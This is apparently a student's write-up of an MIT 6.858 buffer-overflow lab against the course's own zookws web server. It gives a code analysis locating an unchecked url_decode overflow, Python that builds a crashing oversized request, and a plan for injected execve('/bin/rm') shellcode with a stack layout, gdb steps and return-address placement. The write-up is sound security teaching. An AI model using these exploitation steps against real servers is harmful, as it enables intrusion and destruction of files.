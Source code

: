 # Lab 1: Buffer Overflows
- We will exploit the buffer overflow vulnerabilities in the context of a web server called `zookws`, which runs a simple python web application `zoobar`
- *Lab infrastructure*:
    - for convenience, use the provided Ubuntu 21.10 Linux virtual machine
    - username: `student`, password: `6858`
    - `ssh -p 2222 student@<IP_ADDRESS>`
    - I used VSCode to ssh login to the VM, we need the following configuration in `~/.ssh/config`
        ```
        Host 858vm
            User student
            HostName <IP_ADDRESS>
            Port 2222
            IdentityFile ~/.ssh/858ssh
        ```
- *Preparation*:
    - Get and compile the lab code
        ```
        $ git clone https://web.mit.edu/6858/2022/lab.git
        $ make
        ```
    - There are 2 versions of `zookd`
        - `zookd-exstack`: runs with an executable stack
        - `zookd-nxstack`: runs with a non-executable stack
    - To run the web server in a predictable fashion, i.e., each time the stack and memory layout is the same, use `clean-env.sh`
    - Run `$ ./clean-env.sh ./zookd 8080`, the `clean-env.sh` commands starts `zookd` on port 8080, then we can visit `http://<VM_IP>:8080/` in our browser

## Part 1: Finding buffer overflows
- Study the server's C code (`zookd.c` and `http.c`) to find one example of code that allows the attacker to overwrite the return address of a function
- `zookd.c`
    1. `main()`, `run_server`, and `start_server` basically create a socket listening to all network interfaces (`0.0.0.0`) and the port specified in the first argument. When a new connection request comes, `run_server` will create a child process, which will run `process_client(cltfd)`, where `cltfd` is the file descriptor of the client socket
    2. `process_client()`
        1. Declares a static buffer `env[8192]` (not on the stack)
        2. Declares a buffer `reqpath[4096]` on the stack
        3. Invokes `http_request_line(fd, reqpath, env, &env_len)`, it reads the first line of the request, like `GET /tmp HTTP/1.0`, and parses it
        4. Invokes `env_deserialize(env, sizeof(env))`
        5. Invokes `http_request_headers(fd)`, it reads the rest of the request and parse the HTTP headers
- `http.c`
    1. `int http_read_line(int fd, char *buf, size_t size)`
        - Reads the HTTTP request from the client FD byte by byte, until it sees the first `\n` or `\r`, i.e., it reads one line of the request
    2. `const char *http_request_line(int fd, char *reqpath, char *env, size_t *env_len)`
        - Invokes the previous `http_read_line()`, but converts the returned integer to error information if there is an error
        - Parses request like `GET /foo.html?a=1 HTTP/1.0` (only support `GET` and `POST`)
        - Finally stores the URL decoded request path (e.g., `/foo.html`) in `reqpath`, store some environment variables (e.g., `REQUEST_METHOD=GET\0SERVER_PROTOCOL=HTTP/1.0\0QUERY_STRING=a=1\0REQUEST_URI=/foo.html\0SERVER_NAME=zoobar.org`) in `env`
    2. `const char *http_request_headers(int fd)`
        - Parses the rest of the request, each line is like `XXX: ...`, e.g., `Cookie: foo bar`
        - Converts the header name (e.g., `Cookie`, `Content-Type`) to uppercase, replaces all hyphens with underscores, and add these header names to `envvar`, notice that all header names will be added a prefix `HTTP_` except `CONTENT_TYPE` and `CONTENT_LENGTH`
        - Uses `setenv` to set the header names and corresponding values (URL decoded) as environment variables
    3. `env_deserialize(const char *env, size_t len)`
        - Parses the content in `env`, which is like `REQUEST_METHOD=GET\0SERVER_PROTOCOL=HTTP/1.0\0QUERY_STRING=a=1\0REQUEST_URI=/foo.html\0SERVER_NAME=zoobar.org`, set them as environment variables
        - For example, by processing `REQUEST_METHOD=GET\0`, it invokes `setenv('REQUEST_METHOD', 'GET')`
    4. `url_decode(char *dst, char *src)`
        - URL decodes the content in `src` and store the result in `dst`

- *vulnerability*: a buffer overflow can happen when the request path (after URL decoded ) is longer than the length of `regpath` (4096 bytes), this is possible because the maximum length of each line can get to 8192 bytes (the size of `env`), and there isn't any size check when invoking `url_decode(reqpath, sq1)` inside `http_request_line(fd, reqpath, env, &env_len)`
    - The chain of function calls: `process_client()`, `http_request_line()`, `url_decode()`

- Now we can start developing exploits. The provided `~/lab/exploit-template.py` issues an HTTP request, it takes 2 arguments, the server name and port number, we can run it in this way: 
    ```
    $ ./clean-env.sh ./zookd-exstack 8080 & <-- starts the server in the backgroud
    $ ./exploit-template.py localhost 8080
    ```
- `gdb` is useful in building our exploits, we can attach it to an already-running process with `gdb -p $(pgrep zookd-)`. By default, `gdb` continues to debug parent process and does not attach to the child when the process forks. We can using the command `set follow-fork-mode child` to attach `gdb` to the child process, we can add it to `~/lab/.gdbinit`

- *exploitation (simple version)*: crash the server or one of the processes it creates. We just need to pad enough bytes into the request path to overwrite the return address of function `process_client()`. Inside `process_client()`, there are 2 stack variables, a buffer of 4096 bytes and a pointer of 8 bytes. And the previous `rbp` (8 bytes) is in the stack frame of `process_client()`. And finally, the next 8 bytes is the return address. Since there is a `/` in the request path, we directly pad at least `4096+8+8+7` none-zero bytes (because inside `url_decode()`, the decoding and copying process stops when it sees `\0`). Core code:
    ```
    def build_exploit(payload):
        req =   b"GET /" + payload + b" HTTP/1.0\r\n" + \
                b"\r\n"
        return req
        
    def create_padding(pad_len, pad_byte = b'\x90'):
        padding = b''
        for i in range(pad_len):
            padding = padding + pad_byte
        return padding

    req = build_exploit(create_padding(4096 + 8 + 8 + 7))
    resp = send_req(sys.argv[1], int(sys.argv[2]), req) # send_req() is provided in the template
    ```
    ```
    (server side)
    zookd-exstack: [4710] Request failed: Request too long
    Child process 4710 terminated incorrectly, receiving signal 4
    ```

## Part 2: Code injection
- Exploit the vulnerability to inject shellcode to the server to remove a file `/home/student/grades.txt`
- First, we can develope a program that removes this file, to do this, we just need a system call `execve("/bin/rm", {"rm", "/home/student/grades.txt", NULL}, {NULL})`, we can store these parameters on the stack. When passing parameters to the system call, the first parameter (`rdi`) is `[rsp+56]`, the second (`rsi`) is `[rsp]`, the third (`rdx`) is `0x0` (`NULL`)
    ```
    +--------------------------+ High address
    |           ...            |
    |--------------------------|
    |       "/bin/rm\0"        |
    |--------------------------| <-- rsp+56
    |     0x0000000000000000   |
    |--------------------------| <-- rsp+48
    |        "ades.txt"        |
    |--------------------------| <-- rsp+40
    |        "udent/gr"        |
    |--------------------------| <-- rsp+32
    |        "/home/st"        |
    |--------------------------| <-- rsp+24
    |     0x0000000000000000   |
    |--------------------------| <-- rsp+16
    |          rsp+24          | (address of "/home/student/grades.txt")
    |--------------------------| <-- rsp+8
    |          rsp+61          | (address of "rm")
    |--------------------------| <-- rsp
    |           ...            |
    +--------------------------+ Low address
    ```

- Then, we need to know the address of the buffer `reqpath` (in `process_client()`), as well as the `rbp` of the stack frame of `process_client()`
    1. In `/home/student/lab`, run `gdb -p $(pgrep zook-)`
    2. Set a breakpoint at `process_client()`
    3. Send any request to the server to trigger the breakpoint
    4. Inside `process_client()`, run a few instructions to ensure the `rbp` of the current frame is set
    5. Check the address of `reqpath`, and `rbp` (return address is stored at `rbp+8`)
        ```
        (gdb) p/x &reqpath
        $2 = 0x7fffffffdca0
        (gdb) p/x $rbp
        $3 = 0x7fffffffecb0
        ``` 
- Finally, we can construct our payload, to overwrite the return address of `process_client()` to redirect the execution to our shellcode
    - My payload is constructed as (`reqpath` is `/[PAYLOAD]`)
        - `low <-- [shellcode | 0x90 ... | return address (0x7fffffffdca1)] --> high`
- My solution cannot be directly used for submission, because some file names are different (e.g., my shellcode bytes are stored in `shellcode-raw`, not `shellcode.bin`)
- One thing important is that there cannot be any zero bytes (`0x00`) in our payload, otherwise, the content after that will be ignored, and the server cannot parse our request correctly

## Part 3: Return-to-libc attacks
- this is to defeat the non-executable stack countermeasure